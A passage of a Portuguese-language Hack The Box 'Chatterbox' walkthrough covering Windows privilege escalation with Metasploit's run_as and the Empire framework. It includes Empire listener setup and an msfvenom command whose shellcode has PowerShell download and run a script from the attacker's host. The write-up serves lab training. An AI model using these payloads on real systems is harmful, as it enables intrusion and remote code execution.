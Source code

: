 Também posso fazer com o post do `run_as`

> use windows/manage/run_as

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u12.png)

# Escalação de Privilégio (4º Modo Empire)

Agora iremos utilizar o `Empire` para demonstrar essa escalação de privilégio também, a ideia é a mesma do que já foi feito, mas pra praticar o uso da ferramenta é bom repetirmos

Baixamos ele para nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e1.png)

Executamos o executável `empire`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e2.png)

Começamos a configuração e execução - Setamos o listener para HTTP e colocamos nosso IP e Porta

```
uselistener http
set Host http://10.10.16.117:5555
set BindIP 10.10.16.117
set Port 5555
execute
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e3.png)

Show, já está sendo executado o listener, agora com o comando `launcher powershell` conseguimos qual vai ser o comando de powershell executado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e4.png)

Agora copiamos essa saida para um arquivo, fazemos no payload para executar ele, e jogamos dentro do exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e5.png)

`msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/empire.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_e6.png)
